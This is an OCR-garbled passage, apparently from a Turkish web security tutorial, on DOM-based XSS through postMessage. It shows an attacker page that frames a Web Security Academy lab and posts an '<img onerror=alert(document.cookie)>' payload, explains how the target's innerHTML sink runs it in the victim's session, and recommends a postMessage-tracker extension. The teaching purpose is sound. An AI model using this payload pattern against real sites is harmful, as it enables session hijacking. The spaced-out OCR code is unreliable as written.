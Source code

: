 `   `<scr i pt >

`     `var  t ar get  =  document . get El ement ByI d( "t ar get ") ;

`     `t ar get . addEvent Li st ener ( "l oad",  f unct i on  ( )  {

`       `t ar get . cont ent Wi ndow. post Message(

`         `"<i mg  sr c=x  oner r or =al er t ( document . cooki e) >",          "\*"

`       `) ;

`     `}) ;

`     `t ar get . sr c  =![](Aspose.Words.cccac844-d5dd-4f8a-a005-2e49c7480041.037.png)

`       `"ht t ps: / / 0add005f 042c0f 178189085900c9006b. web- secur i t y- academy. net / ";    </ scr i pt >

</ ht ml >

hacker.com bu şekilde bir HTML içeriği dönünce de browser buradaki ‘target.src’ kısmında verilen adresi iframe ile açar. Bu adres de hedef sitenin adresidir, örneğin; hedef.com gibi düşünelim. Buraya bir HTTP Request’i gönderilir, kullanıcı oturumu açık ise tüm cookie’ler de bu HTTP request’ine eklenmiş olur. Ardından da hacker.com’daki JavaScript koduna göre bu sayfanın yüklenmesi tamamlandığında oradaki iframe’e bir postMessage gönderilir. Gönderilen postMessage içerisinde de bir XSS Payload’ı bulunmaktadır.Bu postMessage iletildiğinde ise hedef sitedeki JavaScript koduna göre gelen postMessage parse edilerek bir ‘content’ elde edilir. Oluşan ‘content’ yeni oluşturulan div’in element’ine innerHTML aracılığıyla yazılır. Bu şekilde sonuç olarak XSS açığı meydana gelmiş olur. Dolayısıyla hacker, kurban kullanıcının mevcut oturumu ile hedef siteye yönelik

istediği JavaScript kodunu çalıştırabilir hale gelmiş olur.

Tüm bu yaşananların modellendiği şekile de buradan ulaşabilirsiniz;

![](Aspose.Words.cccac844-d5dd-4f8a-a005-2e49c7480041.038.png)

postMessage ile İlgili Yaşanan Olayların Modellenmesi

postMessage-tracker chrome extension

Bu adresteki chrome eklentisini kurduğunuz zaman ziyaret ettiğiniz web uygulamasındaki postMessage’ların dinlenip dinlenmediğini veya ne yapıldığını tespit edebilirsiniz. Potansiyel olarak XSS oluşabilecek noktaları rahatlıkla tespit edebilirsiniz.

Kaynak: <https://github.com/fransr/postMessage-tracker>

Kaynaklar:

1\. [Web Security 0x09 | XSS Güvenlik Zafiyeti Serüvenine Devam Part 2 — Mehmet İnce](https://www.youtube.com/watch?v=xXbDhyKo9B8)
